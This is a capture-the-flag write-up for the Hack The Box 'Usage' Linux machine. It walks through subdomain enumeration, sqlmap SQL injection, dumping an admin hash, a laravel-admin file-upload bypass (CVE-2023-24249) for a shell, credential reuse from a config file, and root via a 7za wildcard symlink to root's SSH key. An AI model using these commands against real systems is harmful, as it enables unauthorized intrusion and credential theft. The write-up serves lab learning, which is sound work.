






| Name            | Usage                                                                                                                |
| --------------- | -------------------------------------------------------------------------------------------------------------------- |
| Platform        | HTB                                                                                                                  |
| Difficulty      | Easy                                                                                                                 |
| OS              | Linux                                                                                                                |
| Used techniques | sudomain enumeration,  SQLi, crack hashes, File Upload attack, credentials finding, reverse, wildcards spare tricks. |
| Technologies    | Laravel, Laravel-admin                                                                                               |
| Tools           | gobuster,  BurpSuite, sqlmap, nc, strings                                                                            |
| CVEs            | cve-2023-24249                                                                                                       |

## Enumeration

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-04 16:39 CEST
Nmap scan report for 10.10.11.18
Host is up (0.042s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.80 seconds
```

Important information to be extracted: nginx server, usage.htb as domain.

```bash
http://usage.htb [200 OK] Bootstrap[4.1.3], Cookies[XSRF-TOKEN,laravel_session], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], HttpOnly[laravel_session], IP[10.10.11.18], Laravel, PasswordField[password], Title[Daily Blogs], UncommonHeaders[x-content-type-options], X-Frame-Options[SAMEORIGIN], X-XSS-Protection[1; mode=block], nginx[1.18.0]
```


Inspecting the web site, we can only see that we can register as users and log in. Once logged in, there is no vector that can serve us as an attack vector. It should be some directory or subdomain not enumerated. 

### Directories

Apart from spidering the website, there is no extra directories found:


``` bash
gobuster dir -u usage.htb -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --exclude-length 206
```
/login
/registration
/reset-password


### subdomains
```bash
ffuf -u http://usage.htb -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -H 'Host: FUZZ.usage.htb' -fs 178
```

==admin.usage.htb==
+/admin
+/uploads


We find also one admin panel endpoint. The use of default credentials does not work. The first idea is that we have to use some kind of credential or token taken from the home page or some injection that we have not yet tested.


## Foothold

Possible SQLi on /reset-password. It gave us an 500 code error after injecting single quote.




We found one table with users, it may contain some valid credentials that may be used in the admin panel.




`hashcat -a 0 -m 3200 hashes /usr/share/wordlists/rockyou.txt`
`hashcat -a 0 -m 3200 hashes --show`

This ended up going down a rabbit hole. No credentials have been of any use to us. The credentials that will give us access can be found in table *admin_users*:

The web is implementing some security measures against excessive requests, so let's calibrate the sqlmap command well.

```
sqlmap -r request.txt --level 5 --risk 3 -p email --batch --dbs --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog ---tables --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users --columns --threads 10

sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C name,username,password --threads 10
```


```bash 
Administrator | admin    | $2y$10$ohq2kLpBH/ri.P5wR0P3UOmc24Ydvl9DA9H1S6ooOMgH5xVfUPrL2
``` 

Valid credentials found and used on admin panel.



List of the version is listed on the dashboard, so it is easy to check that there is a vulnerable version: *encore/laravel-admin 1.8.17*.

This version is vulnerable to cve-2023-24249, which consists in a File Upload vulnerability. We can bypass the image upload easily, just changing the extension. The way to go is, first we have to upload *shell.jpg* (shell.php with extension changed). After success, upload again and catch the request, this time we have to add .*php* (shell.jpg.php). Once we have prepared our listener, try to download the image.





## Lateral Movement

After foodhold, we see that there is just one more user called **xander**. On the same folder, we find one hidden file (*/.monitrc*) with credentials with can spray with. It worked to change user to xander.


```bash
allow admin:3nc0d3d_pa$$w0rd
```

```xander:3nc0d3d_pa$$w0rd```


## Privilege Escalation

As xander we can use sudo with the following command:

```bash
sudo -l
Matching Defaults entries for xander on usage:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User xander may run the following commands on usage:
    (ALL : ALL) NOPASSWD: /usr/bin/usage_management
```


Once we play with it a little bit, it looks like it creates some backup's files. We can inspect if there are hidden credentials or something exploitable.

```strings /usr/bin/usage_management```


We see one line with a \*, that may lead to a wildcard hack. If we do some research, we find that it is in fact a **7za wildcard spare** . It gives us local file inclusion. One way to get root is to find the corresponding ssh key:

```  bash
cd /var/www/html  
touch @id_rsa  
ln -s /root/.ssh/id_rsa id_rsa  
sudo /usr/bin/usage_management
```

We are root it.

#### Developed map



#### Sources

https://flyd.uk/post/cve-2023-24249/
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/wildcards-spare-tricks
